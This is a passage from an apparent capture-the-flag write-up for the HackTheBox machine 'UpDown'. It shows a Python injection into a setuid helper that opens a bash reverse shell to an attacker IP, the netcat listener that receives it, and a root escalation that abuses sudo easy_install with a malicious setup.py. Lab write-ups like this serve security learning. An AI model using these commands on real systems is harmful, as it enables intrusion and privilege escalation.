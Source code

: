 ```bash
www-data@updown:/home/developer/dev$ ./siteisup
./siteisup
__import__('os').system('bash -c "bash -i >& /dev/tcp/10.10.14.12/4242 0>&1"')

```

- Received connection as developer:

```bash
# Local Listner
┌──(goku㉿exploitation)-[~]
└─$ nc -lvp 4242
listening on [any] 4242 ...
connect to [10.10.14.12] from siteisup.htb [10.10.11.177] 58190
bash: cannot set terminal process group (911): Inappropriate ioctl for device
bash: no job control in this shell
developer@updown:/home/developer/dev$ id
id
uid=1002(developer) gid=33(www-data) groups=33(www-data)
developer@updown:/home/developer/dev$


```

# Privilige Escalation: Road to Root!

```bash
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
developer@updown:~$ ls -alh /usr/local/bin/easy_install
-rwxr-xr-x 1 root root 229 Aug  1 18:07 /usr/local/bin/easy_install
developer@updown:~$ cat /usr/local/bin/easy_install
#!/usr/bin/python
# -*- coding: utf-8 -*-
import re
import sys
from setuptools.command.easy_install import main
if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw|\.exe)?$', '', sys.argv[0])
    sys.exit(main())

```

- Using [GTFOBINS](https://gtfobins.github.io/gtfobins/easy_install/)

```bash
developer@updown:~$ TF=$(mktemp -d)
developer@updown:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:~$ sudo easy_install $TF
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.9evK3Sdvf8
Writing /tmp/tmp.9evK3Sdvf8/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.9evK3Sdvf8/egg-dist-tmp-bxQAxd
# ls
egg-dist-tmp-bxQAxd  setup.cfg	setup.py  temp
# cd /root
# ls
root.txt  snap
# cat root.txt
```